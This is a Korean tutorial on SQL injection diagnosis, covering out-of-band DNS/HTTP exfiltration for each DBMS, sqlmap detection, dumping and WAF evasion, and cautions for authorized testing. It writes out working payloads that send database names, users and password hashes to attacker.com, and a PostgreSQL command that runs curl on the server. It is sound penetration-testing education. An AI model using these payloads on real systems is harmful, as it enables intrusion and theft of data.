

# SQL Injection 진단과 테스트

공격 유형과 방어 코드는 [SQL_Injection.md](SQL_Injection.md)에서 다뤘다. 여기서는 취약점이 실제로 존재하는지 확인하는 진단 관점을 정리한다. 화면에 결과가 안 나오는 환경에서 데이터를 빼내는 Out-of-Band 기법, sqlmap을 쓴 실전 진단 절차, 진단 결과를 어떻게 읽고 오탐을 거르는지, 그리고 권한 있는 보안 테스트에서 지켜야 하는 선을 다룬다.

진단은 공격과 기술적으로 같은 행위다. 차이는 대상 동의와 범위 합의뿐이다. 운영 DB에 sqlmap을 돌리는 순간 의도와 무관하게 데이터를 망가뜨릴 수 있으니, 마지막 절의 주의사항을 먼저 읽는 편이 낫다.

---

## Out-of-Band SQL Injection이 필요한 이유

SQL Injection 진단에서 가장 까다로운 상황은 응답에 아무것도 안 나올 때다. UNION으로 데이터를 화면에 띄울 수도 없고, 에러 메시지도 안 돌려주고, 참/거짓에 따른 응답 차이도 없다. Blind 기법 중 시간 기반(`SLEEP`, `WAITFOR DELAY`)으로 한 비트씩 추출할 수는 있지만, 비밀번호 해시 하나 빼는 데 수천 건의 요청이 필요하고 응답 지연으로 진단 자체가 탐지된다.

Out-of-Band(OOB)는 DB가 직접 외부로 네트워크 연결을 만들게 해서 데이터를 실어 보내는 방식이다. 웹 응답이라는 채널을 안 쓰고 DNS 질의나 HTTP 요청이라는 별도 채널로 데이터를 흘린다. 한 번의 요청으로 데이터 전체를 한 채널에 담아 보낼 수 있어서 시간 기반보다 훨씬 빠르다.



핵심 전제는 DB 서버가 외부로 나가는 네트워크 연결을 만들 수 있어야 한다는 점이다. 외부 DNS 질의는 방화벽이 막아도 내부 DNS 리졸버를 거쳐 결국 외부로 나가는 경우가 많아서, HTTP보다 DNS exfiltration이 성공률이 높다. 반대로 DB 서버가 완전히 폐쇄망에 있으면 OOB는 안 통한다. 진단에서 OOB가 실패했다고 취약점이 없는 게 아니라, 네트워크 경로가 막힌 것일 수 있다.

---

## DBMS별 OOB 데이터 탈취 기법

DBMS마다 외부로 나가는 함수가 다르다. 핑거프린팅으로 DBMS를 먼저 확정한 뒤 거기에 맞는 함수를 골라야 한다. 아래 페이로드는 모두 권한이 있어야 동작하며, 운영 환경에서는 권한 분리로 막혀 있는 경우가 많다.

### MS SQL Server

가장 OOB가 잘 통하는 DBMS다. `xp_dirtree`는 원래 디렉터리 구조를 보는 저장 프로시저인데, 인자로 UNC 경로(`\\서버\공유`)를 주면 Windows가 해당 호스트를 SMB로 찾으려고 DNS 질의부터 보낸다. 이 DNS 질의에 데이터를 실으면 빠져나온다.

```sql
-- 현재 DB명을 서브도메인에 실어 DNS 질의 발생
'; DECLARE @q VARCHAR(1024);
SELECT @q = '\\' + (SELECT DB_NAME()) + '.attacker.com\share';
EXEC master..xp_dirtree @q;--
```

`DB_NAME()` 결과가 `appdb`라면 DB 서버는 `appdb.attacker.com`을 조회한다. 테스터가 `attacker.com`의 권한 있는 DNS 서버를 운영하면 쿼리 로그에 `appdb`가 찍힌다. 점(`.`)이나 공백 같은 문자는 DNS 라벨에 못 들어가므로, 데이터에 그런 문자가 있으면 `HEX` 인코딩해서 보내야 한다.

```sql
-- 비밀번호 해시를 hex로 변환해 실어 보내기
'; DECLARE @h VARCHAR(1024);
SELECT @h = '\\' + (SELECT master.dbo.fn_varbintohexstr(HASHBYTES('SHA2_256','test'))) + '.attacker.com\x';
EXEC master..xp_dirtree @h;--
```

`xp_dirtree`가 막혀 있으면 `xp_fileexist`, `xp_subdirs`, `BULK INSERT`로도 같은 UNC 경로 조회를 유발할 수 있다. `xp_cmdshell`이 켜져 있으면 `nslookup`을 직접 부르는 것도 가능하지만, 운영 서버에서 `xp_cmdshell`이 켜진 경우는 드물다.

### Oracle

Oracle은 OOB 함수가 풍부하다. `UTL_HTTP`로 HTTP 요청을, `UTL_INADDR`로 DNS 질의를 직접 만든다. `UTL_INADDR.GET_HOST_ADDRESS`는 호스트명을 IP로 바꾸는 함수라 인자에 데이터를 실으면 DNS 질의가 나간다.

```sql
-- DNS exfiltration (UTL_INADDR)
SELECT UTL_INADDR.GET_HOST_ADDRESS(
  (SELECT user FROM dual) || '.attacker.com'
) FROM dual;

-- HTTP exfiltration (UTL_HTTP) — 데이터를 URL 경로에 실음
SELECT UTL_HTTP.REQUEST(
  'http://attacker.com/' ||
  (SELECT password FROM sys.user$ WHERE name='SYS')
) FROM dual;
```

11g부터는 ACL(Access Control List)이 걸려서 `UTL_HTTP`나 `UTL_INADDR`가 임의 호스트로 못 나가는 경우가 많다. 이때는 `DBMS_LDAP.INIT`, `HTTPURITYPE`, XML 외부 엔티티를 쓰는 `DBMS_XMLGEN` 같은 우회 함수를 시도한다. 어떤 함수가 ACL에 안 걸리는지는 버전·패치 수준에 따라 달라서, 진단에서는 여러 함수를 순서대로 던져 본다.

### MySQL

MySQL은 OOB가 가장 안 통하는 편이다. HTTP를 직접 만드는 함수가 없고, `LOAD_FILE`로 UNC 경로를 읽는 방식은 Windows에 설치된 MySQL에서만 동작한다.

```sql
-- Windows MySQL에서 UNC 경로로 SMB/DNS 질의 유발
SELECT LOAD_FILE(
  CONCAT('\\\\', (SELECT @@version), '.attacker.com\\x')
);
```

`LOAD_FILE`과 `INTO OUTFILE`은 `secure_file_priv` 설정에 묶인다. 이 값이 빈 문자열이면 임의 경로 읽기/쓰기가 되고, 특정 디렉터리로 지정돼 있으면 그 안에서만, `NULL`이면 둘 다 막힌다. 8.0부터 기본값이 제한된 디렉터리라 OOB나 파일 쓰기는 잘 안 된다. 진단 중 `INTO OUTFILE`로 웹쉘을 떨구는 시나리오를 검토한다면, 웹 루트 경로 쓰기 권한과 `secure_file_priv`를 먼저 확인해야 헛수고를 안 한다.

```sql
-- 파일 권한 확인 — 페이로드 던지기 전에 먼저
SELECT @@secure_file_priv, @@version_compile_os;
```

리눅스 MySQL은 UNC 경로 개념이 없어서 OOB가 사실상 불가능하다. 이 환경에서는 시간 기반 Blind로 돌아가야 한다.

### PostgreSQL

PostgreSQL은 `COPY ... TO/FROM PROGRAM`으로 OS 명령을 실행할 수 있어서, 슈퍼유저 권한이 있으면 `curl`이나 `nslookup`을 직접 부른다.

```sql
-- COPY FROM PROGRAM으로 명령 실행해 HTTP 요청 발생
COPY (SELECT '') TO PROGRAM
  'curl http://attacker.com/$(whoami)';

-- 테이블에 명령 결과를 받아 다시 쿼리로 읽기
CREATE TABLE oob(data text);
COPY oob FROM PROGRAM 'curl -s http://attacker.com/ping';
```

`COPY ... PROGRAM`은 슈퍼유저나 `pg_execute_server_program` 역할이 있어야 동작한다. 권한이 없으면 `dblink`나 `postgres_fdw` 확장으로 외부 연결을 만드는 우회가 있는데, 확장이 설치돼 있어야 한다. 9.3 미만에서는 `COPY ... PROGRAM`이 없어서 다른 경로를 찾아야 한다.

---

## DNS와 HTTP exfiltration의 동작 원리

OOB는 결국 두 채널 중 하나로 데이터를 흘린다. 둘은 성공률과 용량이 다르다.

DNS exfiltration은 데이터를 서브도메인 라벨에 실어 보낸다. `(데이터).attacker.com`을 조회하면 권한 있는 네임서버까지 질의가 전달되면서 데이터가 로그에 남는다. 방화벽이 외부 HTTP는 막아도 내부 DNS 리졸버를 통한 재귀 질의는 허용하는 경우가 많아 성공률이 높다. 대신 라벨당 63자, 전체 253자 제한이 있고 점·공백 같은 문자를 못 써서 hex나 base32로 인코딩해야 한다. 큰 데이터는 여러 질의로 쪼개 청크 단위로 보낸다.

HTTP exfiltration은 데이터를 URL 경로나 쿼리스트링에 실어 GET 요청을 보낸다. 용량 제한이 거의 없고 인코딩도 자유롭지만, DB 서버에서 외부로 나가는 HTTP(80/443)가 방화벽에 막히면 바로 실패한다. 운영 환경 DB는 아웃바운드 HTTP가 차단된 경우가 많아서, 실무 진단에서는 DNS를 먼저 시도하고 안 되면 HTTP를 보는 순서가 맞다.

수신 측은 직접 권한 있는 DNS 서버를 띄우거나, Burp Collaborator 같은 OOB 상호작용 서버를 쓴다. Collaborator는 고유 서브도메인을 발급하고 DNS·HTTP·SMTP 질의를 한 화면에서 모아 보여줘서, 페이로드가 실제로 빠져나왔는지 확인하기 편하다. 직접 서버를 운영한다면 `tcpdump`로 들어오는 DNS 질의를 보거나, 권한 있는 존을 설정해 쿼리 로그를 켜 둔다.

```bash
# 들어오는 DNS 질의 관찰 (수신 서버에서)
tcpdump -n -i eth0 udp port 53

# 들어오는 HTTP 요청을 즉시 보여주는 임시 수신기
ncat -lvkp 80
```

---

## sqlmap 진단 워크플로우

수동으로 페이로드를 던지는 건 취약점 존재 여부를 확인할 때고, 실제 데이터를 빼내거나 여러 파라미터를 훑을 때는 sqlmap을 쓴다. sqlmap은 탐지·핑거프린팅·덤프를 자동화한다. 다만 자동화 도구라 운영 DB에 함부로 돌리면 위험하고, 옵션을 모르면 오탐을 그대로 믿게 된다.

### 1단계 — 탐지

요청 하나를 그대로 재현하는 게 출발점이다. 브라우저에서 요청을 잡아 파일로 저장하고 `-r`로 넘기면 헤더·쿠키·바디를 그대로 재현해서 인증 상태나 Content-Type 실수를 줄인다.

```bash
# 저장한 요청 파일로 탐지
sqlmap -r request.txt --batch

# 단일 URL과 테스트할 파라미터 지정
sqlmap -u "https://target/item?id=1" -p id --batch
```

`--batch`는 모든 대화형 질문에 기본값으로 자동 응답한다. 진단 중 멈추지 않게 하는 옵션인데, 기본값이 항상 안전한 선택은 아니니 처음 한 번은 `--batch` 없이 어떤 질문이 오는지 봐 두는 편이 낫다.

### 2단계 — 탐지 범위 조절 (--level / --risk)

기본 설정으로 안 잡히면 탐지 강도를 올린다.

`--level`(1~5)은 테스트하는 위치와 페이로드 수를 늘린다. 기본 1은 GET/POST 파라미터만 본다. 3 이상이면 User-Agent, Referer, 쿠키 같은 헤더까지 주입을 시도한다. 헤더 기반 주입을 의심하면 `--level 3` 이상이 필요하다.

`--risk`(1~3)는 페이로드의 위험도를 올린다. 기본 1은 안전한 페이로드만, 2는 시간 기반 무거운 쿼리, 3은 `OR` 기반 페이로드까지 쓴다. `OR` 페이로드는 `UPDATE`나 `DELETE`의 `WHERE`에 주입되면 테이블 전체 행을 건드릴 수 있어서, 운영 DB에서 `--risk 3`은 데이터를 망가뜨릴 위험이 실재한다.

```bash
# 탐지 강도와 위험도를 함께 올림 (스테이징에서만 권장)
sqlmap -r request.txt --level 5 --risk 3 --batch
```

level·risk를 올릴수록 요청 수가 기하급수로 늘어 진단 시간이 길어지고 대상 서버 부하도 커진다. 무작정 5/3으로 시작하지 말고, 1/1로 안 나오면 한 단계씩 올린다.

### 3단계 — 기법 지정 (--technique)

sqlmap은 기본적으로 모든 기법을 시도한다. 환경을 알면 기법을 좁혀서 시간을 줄인다. 각 문자는 기법을 뜻한다.

- `B` Boolean blind
- `E` Error 기반
- `U` UNION
- `S` Stacked queries (다중 구문)
- `T` Time blind
- `Q` Inline query

```bash
# UNION과 에러 기반만 시도 (응답에 데이터가 노출되는 환경)
sqlmap -r request.txt --technique=UE --batch

# 시간 기반만 (Blind만 가능한 환경, 느리지만 확실)
sqlmap -r request.txt --technique=T --batch
```

시간 기반(`T`)은 네트워크 지연이 심한 환경에서 오탐이 자주 난다. `--time-sec`으로 지연 임계값을 올리면(`--time-sec 5` 이상) 우연한 지연을 진짜 취약점으로 오인하는 걸 줄인다.

### 4단계 — 핑거프린팅과 스키마 덤프

취약점이 확인되면 DBMS를 확정하고 구조를 단계적으로 본다. 처음부터 `--dump-all`을 던지면 데이터가 폭발하니, DB → 테이블 → 컬럼 → 행 순으로 좁혀 간다.

```bash
# DBMS 버전·OS·사용자 등 핑거프린팅
sqlmap -r request.txt --fingerprint --current-user --current-db --is-dba

# DB 목록 → 테이블 목록 → 컬럼 → 행 순서로
sqlmap -r request.txt --dbs
sqlmap -r request.txt -D appdb --tables
sqlmap -r request.txt -D appdb -T users --columns
sqlmap -r request.txt -D appdb -T users -C username,password --dump
```

`--is-dba`로 DBA 권한 여부를 먼저 보는 이유는, DBA면 `--os-shell`이나 파일 읽기까지 가능해서 진단 범위가 크게 달라지기 때문이다. 권한이 합의 범위를 넘으면 거기서 멈춰야 한다.

### 5단계 — 인증·CSRF 연동

로그인이 필요한 화면은 세션 정보를 넘겨야 한다. `--cookie`로 세션 쿠키를, 토큰이 매 요청 바뀌는 CSRF 보호가 있으면 `--csrf-token`으로 토큰 필드명을 지정한다.

```bash
# 세션 쿠키와 CSRF 토큰 연동
sqlmap -u "https://target/profile" \
  --cookie="JSESSIONID=abc123; role=user" \
  --csrf-token="_csrf" \
  --csrf-url="https://target/form" \
  --batch
```

`--csrf-url`은 토큰을 새로 받아올 페이지다. sqlmap이 매 요청 전에 이 페이지에서 토큰을 긁어 본 요청에 끼운다. 세션이 중간에 만료되면 401/302가 돌아오면서 탐지가 멈추는데, 이때는 `--cookie`를 갱신하거나 로그인 시퀀스를 `--load-cookies`로 넘긴다. 요청 파일(`-r`)을 쓰면 쿠키가 이미 포함돼 있어 이 과정이 간단해진다.

### tamper로 WAF 우회

WAF가 페이로드를 차단하면 `--tamper`로 페이로드를 변형한다. tamper 스크립트는 페이로드를 인코딩·치환해서 시그니처 매칭을 피한다.

```bash
# 공백을 주석으로 치환 + URL 인코딩
sqlmap -r request.txt \
  --tamper=space2comment,charencode \
  --batch

# 대소문자 무작위화 (키워드 시그니처 회피)
sqlmap -r request.txt --tamper=randomcase --batch
```

자주 쓰는 스크립트로 `space2comment`(공백→`/**/`), `between`(`=`→`BETWEEN`), `charencode`(URL 인코딩), `randomcase`(대소문자 섞기)가 있다. tamper를 여러 개 체이닝하면 순서대로 적용된다. 다만 tamper가 항상 도움이 되는 건 아니다. 잘못 고르면 멀쩡히 통하던 페이로드가 깨져서 오히려 탐지가 안 되니, WAF가 확인된 경우에만 붙인다.

---

## 진단 결과 해석과 오탐 판별

sqlmap이 "injectable"이라고 출력해도 그대로 믿으면 안 된다. 특히 시간 기반과 Boolean 기반은 오탐이 잦다.

시간 기반 오탐은 네트워크 지연이나 서버 부하로 응답이 느려진 걸 취약점으로 오인하는 경우다. sqlmap이 시간 기반으로 잡았다면, 같은 페이로드를 `SLEEP(0)`과 `SLEEP(5)`로 직접 던져서 응답 시간이 명확히 갈리는지 수동으로 재현해 봐야 한다. 한두 번 우연히 느린 거라면 재현이 안 된다.

Boolean 기반 오탐은 참/거짓 응답 차이가 실제로는 취약점과 무관한 다른 요인(캐싱, 랜덤 콘텐츠)에서 온 경우다. 참 조건(`AND 1=1`)과 거짓 조건(`AND 1=2`)의 응답을 직접 비교해서, 차이가 안정적으로 재현되는지 확인한다.

가장 확실한 검증은 실제 데이터를 꺼내 보는 것이다. `--current-user`나 `--banner`로 DB가 실제 값을 돌려주면 그건 확정이다. 취약하다고 떴는데 정작 아무 데이터도 안 나오면 오탐을 의심한다.

```bash
# 자동 판정을 수동으로 교차 검증
# 참 조건과 거짓 조건의 응답 차이를 직접 확인
curl "https://target/item?id=1%20AND%201=1"   # 정상 응답이어야
curl "https://target/item?id=1%20AND%201=2"   # 다른 응답이어야
```

진단 보고서에는 도구가 뱉은 결과를 그대로 옮기지 말고, 수동 재현 과정과 실제로 꺼낸 데이터(민감 정보는 마스킹)를 근거로 남겨야 한다. "sqlmap이 취약하다고 했다"는 근거가 아니다.

---

## 권한 있는 보안 테스트 시 주의사항

진단은 합법적 행위가 되려면 문서화된 동의와 범위가 있어야 한다. 범위 합의(scope)에는 테스트 대상 도메인·IP, 허용 기법, 테스트 시간대, 제외 대상이 명시돼야 한다. 합의 없이 돌리면 의도와 무관하게 법적 문제가 된다.

운영 DB에 대한 진단은 특히 조심해야 한다. 아래는 실제로 사고가 나는 지점이다.

`--risk 3`의 `OR` 페이로드는 `UPDATE`/`DELETE` 구문에 주입되면 `WHERE` 조건을 항상 참으로 만들어 테이블 전체를 바꾼다. 운영 DB에서는 `--risk`를 1로 두거나, 읽기 전용이 확인된 엔드포인트에만 올린다.

Stacked queries(`--technique=S`)는 `; DROP TABLE` 같은 별도 구문 실행이 가능한 기법이다. sqlmap이 자동으로 파괴적 구문을 던지진 않지만, 탐지 과정에서 다중 구문을 실행하므로 트랜잭션·락에 영향을 줄 수 있다.

`--threads`를 높이면 동시 요청이 늘어 운영 서버에 부하를 준다. 운영 환경에서는 스레드를 낮게 두고 `--delay`로 요청 간격을 벌려 부하를 줄인다.

`--dump-all`이나 대용량 테이블 덤프는 그 자체로 대량 데이터 유출이다. 진단 목적이라도 PII가 든 테이블 전체를 로컬에 받으면 데이터 보호 의무 위반이 된다. 취약점 증명에 필요한 최소 행(예: 행 수와 컬럼 구조, 마스킹된 샘플 1~2건)만 꺼낸다.

```bash
# 운영 환경에서의 보수적 설정 예
sqlmap -r request.txt \
  --risk=1 --level=2 \
  --technique=BU \
  --threads=1 --delay=1 \
  --batch
```

테스트가 끝나면 sqlmap이 만든 임시 테이블(OOB 검증용 `oob` 같은)이나 파일을 정리하고, 진단 중 남긴 로그·아티팩트를 대상 측과 공유한다. 진단의 마지막은 빼낸 데이터가 아니라, 어디까지 들어갈 수 있었고 무엇으로 막아야 하는지를 정리한 보고서다.
